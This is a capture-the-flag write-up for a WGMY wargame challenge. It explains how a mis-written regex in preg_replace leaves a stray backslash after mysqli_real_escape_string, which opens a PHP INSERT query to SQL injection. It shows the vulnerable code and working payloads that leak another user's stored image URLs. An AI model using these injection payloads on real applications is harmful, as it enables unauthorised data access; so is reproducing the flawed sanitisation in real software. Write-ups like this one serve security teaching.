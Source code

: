 Challenge Description
```
WGMY Fortnight Challenge #1902

#1902 The Album

can you leak admin's secret album?.
http://fortnight1802.wargames.my:8001

And you may find this helpful:
https://drive.google.com/file/d/1ei2RloOrmsUmlzIFkzvgutctIMcwFocS/view?usp=sharing
```
# Analysing
Look at the source code, there are 4 main function:
- Register
- Login
- Add image
- Delete image

In Register and Login, the username parameter is pass to `mysqli_real_escape_string()` function and password parameter is pass to `hash()` function
```php
$username = mysqli_real_escape_string($con, $_POST['username']);
$password = hash('sha256', $_POST['password']);
```

So SQL Injection is not possible in Register and Login

In Delete image, the delete parameter is pass to `intval()` function (Convert to integer), so also not possible to perform SQL injection.
```php
$id = intval($_POST['delete']);
```

Now only left Add image, 
```php
$url = mysqli_real_escape_string($con, $_POST['url']);
$scheme = parse_url($url, PHP_URL_SCHEME);
$ext = pathinfo($url, PATHINFO_EXTENSION);
if (($scheme !== 'http' && $scheme !== 'https') ||
    ($ext !== 'png' && $ext !== 'jpg')) {
    echo 'Image format not supported<br>';
} else {
    $name = preg_replace('(.png|.jpg)', '', basename($url));
    $query = "INSERT INTO image (id, user_id, name, url) VALUES (NULL, {$_SESSION['id']}, '{$name}', '{$url}')";
...
...        
```

First it pass the url parameter to `mysqli_real_escape_string`, `parse_url` and `pathinfo`

`parse_url` is to extract the URL scheme like `http` and `https`

`pathinfo` is to extract the URL extension like `.php`, `.html` etc.

Both function seems not vulnerable, continue to next line:
```php
$name = preg_replace('(.png|.jpg)', '', basename($url));
```
It pass to `basename` and pass to `preg_replace` 

`basename` returns the path to a file or directory of the URL

`preg_replace` is to perform a regular expression for search and replace the content

So this expression `(.png|.jpg)` is regular expression

According to regex101.com:
```
1st Capturing Group (.png|.jpg)
1st Alternative .png
. matches any character (except for line terminators)
png matches the characters png literally (case sensitive)
2nd Alternative .jpg
. matches any character (except for line terminators)
jpg matches the characters jpg literally (case sensitive)
```

It replace not only .png and .jpg, **because `.` in regex means any character except new line** 

So means if we put `http://jjpg.jpg` as URL, the `name` variable will end up become empty because it replace with empty string.

# Proof of Concept
1. Put `http://'jpg.jpg` as the URL
2. `mysqli_real_escape_string` will add a backslash before single quote (`'` become `\'`)
- so `http://'jpg.jpg` become `http://\'jpg.jpg`
3. `basename` will extract the file path : `\'jpg.jpg`
4. `preg_replace` will delete the extension 
- so `'jpg.jpg` will be deleted so left `\`
5. `\` will be put inside the query as `$name`:
```php
"INSERT INTO image (id, user_id, name, url) VALUES (NULL, {$_SESSION['id']}, '{$name}', '{$url}')"
```
6. **`'{$name}'` become `'\'` (quote is not enclose because `\'` is treated as a string)**

Submit the URL `http://\'jpg.jpg` you will get `Failed to add image` response:
![image1.png](image1.png)

Meaning the **SQL query is failed** in other words, **the query is injectable**

# Exploit
In order to read contents in the database we need to enclose the single quote

Because `mysqli_real_escape_string` add a backslash before single quote, we are possible to do that:

`http://'jpg',(SELECT 1))#.jpg` become `\\',(SELECT 1))#`

When inside query:
```php
"INSERT INTO image (id, user_id, name, url) VALUES (NULL, {$_SESSION['id']}, '\\',(SELECT 1))#', '{$url}')"
```

Then we can read the url content by inspecting the web page:
![image2](image2.png)

But I encounted a problem when select from image:
```
http://'jpg',(SELECT url FROM image WHERE user_id = 34 LIMIT 1))#.jpg
```
It return `Failed to insert image`

After some research I found that inside INSERT statement, SELECT statement inside cannot have the same table name

According to https://dev.mysql.com/doc/refman/8.0/en/insert-select.html:
![image3](image3.png)

In order to fix that just use SQL Alias that will change the table to different name

# Solution
The final query that can leak admin's album:
```
http://'jpg',(SELECT GROUP_CONCAT(i.url) FROM image AS i WHERE user_id = 34))#.jpg
```
`GROUP_CONCAT` is a function will select multiple rows into one line, and each row will separated with `,`

Result:
```
https://i.kym-cdn.com/photos/images/original/000/435/652/1f9.png,https://i.kym-cdn.com/photos/images/newsfeed/000/471/542/069.jpg,https://i.kym-cdn.com/photos/images/newsfeed/000/549/306/165.gif,/secret_9hStNLrSEtnBGwk0ZYTeVb8j7YMv58/flag.png,https://i.ky
```
Saw a few nonsense image, only one is the flag image:
```
/secret_9hStNLrSEtnBGwk0ZYTeVb8j7YMv58/flag.png
```

Go to `http://fortnight1802.wargames.my:8001/secret_9hStNLrSEtnBGwk0ZYTeVb8j7YMv58/flag.png` and there's a flag!

![flag](flag.png)